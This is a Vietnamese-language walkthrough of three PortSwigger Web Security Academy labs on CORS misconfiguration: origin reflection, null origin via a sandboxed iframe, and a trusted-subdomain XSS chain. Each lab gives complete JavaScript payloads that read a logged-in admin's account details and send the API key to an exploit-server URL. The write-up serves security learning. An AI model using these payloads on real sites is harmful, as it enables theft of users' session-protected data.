










# Thông tin chung về lỗ hổng

## 1. CORS là gì?

**CORS (Cross-Origin Resource Sharing)** là cơ chế của trình duyệt cho phép các tên domain hợp lệ có thể chia sẻ tài nguyên với nhau. 
- CORS sinh ra để nới lỏng các chính sách SOP, vốn cấm các tên miền khác nhau đọc dữ liệu của nhau.
- Tuy nhiên, rủi ro của việc tấn công xuyên tên miền (cross-domain attacks) là hiện hữu nếu chính sách CORS được cấu hình và vận hành lỏng lẻo, cho phép trang web độc hại đánh cắp dữ liệu người dùng.

## 2. Same-Origin Policy (SOP) là gì?

**Same-Origin Policy** là một cơ chế bảo mật cực kỳ khắt khe của trình duyệt web. Nó đóng vai trò như một "người gác cổng", hạn chế nghiêm ngặt khả năng một trang web này tương tác với các tài nguyên nằm ở một trang web khác (khác origin)

- Nếu không có SOP, khi bạn đang đăng nhập tài khoản ngân hàng `bank.com`, bạn vô tình mở một tab khác chứa trang web độc hại `evil.com`. Trang web độc hại này có thể dùng JavaScript ngầm gửi request sang `bank.com` (xuyên tên miền) để đọc số dư hoặc lịch sử giao dịch của bạn 

**Đặc điểm hoạt động cốt lõi của SOP:**
* **Cho phép "Gửi đi" (Write/Send):** SOP nhìn chung vẫn cho phép một domain gửi request (như gửi form, load ảnh ``, chạy script `<script>`) đến các domain khác
* **Cấm "Đọc lại" (Read):** Đây là mấu chốt. SOP **ngăn chặn** không cho JavaScript của domain hiện tại được phép **đọc dữ liệu phản hồi** từ một domain khác 

$\implies$ Chính vì sự khắt khe này của SOP (cấm đọc dữ liệu chéo) đã gây khó khăn cho các ứng dụng web hiện đại. Do đó, **CORS** mới ra đời như một "tờ giấy phép" để nới lỏng sự kiểm soát của SOP

# Lab 01


\- Với lab đầu tiên, server đã cấu hình CORS tin tưởng tất cả các origin. Khi này ta chỉ việc gửi .js cho nạn nhân (admin)

\- Thật vậy, khi xem thông tin cá nhân thông qua `/accountDetails`, ta có được response: 

- Trả về header `Access-Control-Allow-Credentials: true`, cho phép trình duyệt đính kèm session cookie vào các request cross-origin và cho phép đọc dữ liệu nhạy cảm
- Khi này ta chủ động chèn thêm một header `Origin: https://exploit-...-server.net/exploit` tùy ý vào Request để xác nhận lỗ hổng. Quan sát Response, ta thấy server trả về `Access-Control-Allow-Origin: https://exploit-...-server.net/exploit.com`

&rarr; Điều này chứng tỏ **Server đã mở cổng cho tất cả các domain lạ**: reflect lại bất kỳ Origin nào được gửi tới mà không hề có cơ chế whitelist lọc tên miền.

$\implies$ Dạng lỗ hổng **Basic Origin Reflection**

\- Craft một payload với ví dụ cho trước:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        window.location = "https://exploit-0a2600bd03db44a7807b024a0146000c.exploit-server.net/log?key=" + encodeURIComponent(this.responseText);
    };
    
    req.open('GET', 'https://0a000028034f447b8076031900f70072.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script>

```

**Luồng khai thác:**

\- Lưu đoạn mã JS lên Exploit Server

\- Gửi link Exploit Server cho admin. Khi admin truy cập, payload sẽ được thực thi ngay trên trình duyệt của họ

\- JS tạo một GET request ngầm đến `/accountDetails` (chứa dữ liệu về Apikey). Do có cờ `req.withCredentials = true`, trình duyệt sẽ tự động nhét thêm Session Cookie của Admin vào request này

\- Vì server cấu hình CORS lỏng lẻo (reflect lại mọi `Origin`), trình duyệt sẽ pass qua chốt chặn SOP, cho phép mã JS đọc được response chứa API Key

\- JS dùng event `onload` lấy data, gắn vào tham số `?key=` rồi dùng `window.location` để redirect trình duyệt của admin về lại Exploit Server

\- Check Access Log của Exploit Server và lụm API Key



# Lab 02


\- Trong lab thứ 2, ta thử lại với việc thêm header `Origin: ` vào request và gửi đi. Thế nhưng response đã không còn trả về `Origin: ` như lab đầu tiên

\- Khi thử giá trị `null` cho header này, server lập tức trả về phản hồi với `Origin: null`

 &rarr; CORS dạng **Null Origin**

\- Để khai thác dạng này, ta cần thỏa mãn whitelist của server về `Origin`, đặt giá trị là `null` hoặc bỏ qua nó hoàn toàn khi gửi request
- Ta dùng thẻ `<iframe>` kết hợp thuộc tính `sandbox` làm vũ khí chủ đạo, tấn công cross-origin 
- Trigger script bên trong sandbox và đọc dữ liệu của admin do vẫn giữ header `Access-Control-Allow-Credentials: true`

**Payload:**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        window.location = 'https://exploit-0aa900a10445485482cb2ea9014c00c4.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };  
    req.open('GET', 'https://0abb00fc04c0486982412f57004a0051.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script>"></iframe> 
```
- Cơ bản vẫn giữ nguyên luồng JS lấy dữ liệu của Lab 01
- Mọi mã HTML được tải thông qua giao thức `data:` (Data URLs) đều bị trình duyệt mặc định coi là một origin ẩn danh
- Bọc thẻ `<script>` vào trong một thẻ `<iframe>` có thuộc tính `sandbox`. Việc này ép trình duyệt đưa đoạn mã vào một môi trường origin ẩn danh, khiến cho request gửi đi buộc phải mang header `Origin: null`, qua đó bypass thành công bộ lọc của server

\- Đọc Access log và lấy ra Apikey: 



# Lab 03


\- Lab có gợi ý về việc khai thác MiTM, nhưng đấy là trong môi trường thực tế:
- Nạn nhân trong khoảng địa chỉ IP private có kết nối với mạng public 
- Ta có thể tấn công MiTM để cướp kết nối giữa victim và intranet (mạng nội bộ)
- Lấy kết nối, trình duyệt của nạn nhân như một proxy để truy cập vào mạng nội bộ và tấn công cross-origin domain/subdomain
- Do website nội bộ thường nới lỏng chuẩn bảo mật, một khi đã truy cập vào được intranet thì việc khai thác trở nên khá dễ dàng

\- Đối với môi trường lab, việc thực hiện khai thác MiTM là tương đối bất khả thi, ta cần tìm cách khai thác theo hướng khác

\- Thử các phương pháp như `Reflected origin` lẫn `Null origin` đều không hiệu quả (đương nhiên)

\- Khi bấm `Check stock` của một sản phẩm bất kì, ta có pop-up của một subdomain của trang web


\- Chèn header `Origin: ` vào request của domain gốc với giá trị là subdomain, không khó đoán khi response phản hồi lại đúng giá trị ấy: 


&rarr; Kết hợp với dữ liệu bài cho thì 100% đây là hướng khai thác chủ đạo - khai thác lỗ hỏng thông qua sự tin tưởng tuyệt đối của domain chính đối với subdomain

\- Giờ cần tìm một lỗ hổng XSS trên subdomain này, mượn tay nó gửi request sang domain chính chứa mã độc trích xuất dữ liệu
- Khi thử với tham số trên URL thì xác nhận, subdomain này đã dính **Reflected XSS**:

- Còn một dữ kiện trong đề, đó là `Insecure protocols`, sử dụng phương thức HTTP khi gửi request từ trang của victim sang subdomain
&rarr; Khi này cơ chế bảo mật sẽ được nới lỏng và trích xuất dữ liệu trở nên dễ dang


<details>
    <summary>Logic payload gốc</summary>

```html
<script>
document.location= "http://stock.0aff00c10305751580ad308b00e7000a.web-security-academy.net/?productId= 
// bỏ đi chữ s trong https:// ban đầu
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        window.location = "https://exploit-0a5e00ec0358752280532f3001dc00e4.exploit-server.net/log?key="+encodeURIComponent(this.responseText);
        
    };
    req.open('GET', 'https://0aff00c10305751580ad308b00e7000a.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script>
&storeId=1";
</script>
```

</details>

$\implies$ Chuyển cửa sổ hiện tại của victim sang subdomain chứa script, ngay khi được kích hoạt, nó sẽ mượn danh nghĩa của subdomain để bypass CORS lấy dữ liệu, rồi tuồn về exploit server

\- Một số thứ cần chỉnh sửa:

- Ta cần encode `<script>` và `</script>` thành `%3Cscript%3E` và `&3C/script%3E`, nhằm không đóng thẻ script ở phía trên 
- Encode dấu nháy kép `"` thành `%22` đối với url của exploit server, tránh việc kết thúc thuộc tính `document.location` sớm
- Encode dấu cộng khi ghép giá trị biến `key`, tránh để server hiểu nhầm thành phím cách


<details>
    <summary>Payload hoàn chỉnh</summary>

```html
<script>
document.location=
"http://stock.0aff00c10305751580ad308b00e7000a.web-security-academy.net/?productId=%3Cscript%3E%20var%20req%20=%20new%20XMLHttpRequest();%20req.onload%20=%20function()%20{%20window.location%20=%20%22https://exploit-0a5e00ec0358752280532f3001dc00e4.exploit-server.net/log?key=%22%20%2B%20encodeURIComponent(this.responseText);%20};%20req.open(%27GET%27,%20%27https://0aff00c10305751580ad308b00e7000a.web-security-academy.net/accountDetails%27,%20true);%20req.withCredentials%20=%20true;%20req.send();%20%3C/script%3E&storeId=1";
</script>
```

</details>

\- Xem Access log và nhận Apikey:

